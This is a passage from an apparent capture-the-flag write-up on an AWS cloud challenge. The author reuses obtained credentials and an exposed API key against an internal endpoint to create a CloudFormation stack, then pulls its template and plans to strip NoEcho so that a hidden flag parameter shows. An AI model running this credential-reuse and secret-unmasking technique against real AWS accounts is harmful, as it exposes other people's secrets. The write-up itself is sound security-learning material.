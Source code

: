 <img width="961" height="261" alt="image" src="https://github.com/user-attachments/assets/252b2a71-040e-44c3-8587-d96200267ea7" />

Now I used aws again and set the new credentials up.

So ~~by randomly trying things~~, by considering that the api allows us to make stacks I tried to make a stack also by changing the url in the payload to 

```
http://172.31.73.190/api/generate-stack?api_key=Uqv2JgVFhKtTsNUTyeqDkmwcjgWrar8s
```

and the new paylaod gives

```
{"stackId":"arn:aws:cloudformation:ap-southeast-1:533267020068:stack/pawxy-sandbox-0570121c/4ade64a0-9d3d-11f0-be97-06fd013a2c11"}
```

Knowing our stackID, I tried to run

```
aws cloudformation describe-stacks --stack-name pawxy-sandbox-0570121c
```

and it actually works, giving us 

```
STACKS  2025-09-29T14:05:02.459000+00:00        Flag part 2
        True    False   arn:aws:cloudformation:ap-southeast-1:533267020068:stack/pawxy-sandbox-0570121c/4ade64a0-9d3d-11f0-be97-06fd013a2c11    pawxy-sandbox-0570121c  CREATE_FAILED   The following resource(s) failed to create: [AppDataStore].
CAPABILITIES    CAPABILITY_IAM
DRIFTINFORMATION        NOT_CHECKED
PARAMETERS      flagpt2 ****
```

My neurons connected and I remembered another [website](https://infosecwriteups.com/pentesting-cloud-part-2-is-there-an-echo-in-here-ctf-walkthrough-54ec188a585d) that faced a same-ish problem, when I was searching about cloud CTFs.

So I just needed to get my stack's template file, remove the NoEcho and update my stack with the new template file.

Running

```
aws cloudformation get-template --stack-name pawxy-sandbox-0570121c
```

gives 

```
AWSTemplateFormatVersion: '2010-09-09'
Description: >
  Flag part 2
  
Parameters:
  flagpt2:
    Type: String
      
Resources:
  AppDataStore:
    Type: AWS::S3::Bucket
    Properties:
      BucketName: !Sub app-data-sandbox-bucket

STAGESAVAILABLE Original
STAGESAVAILABLE Processed
```

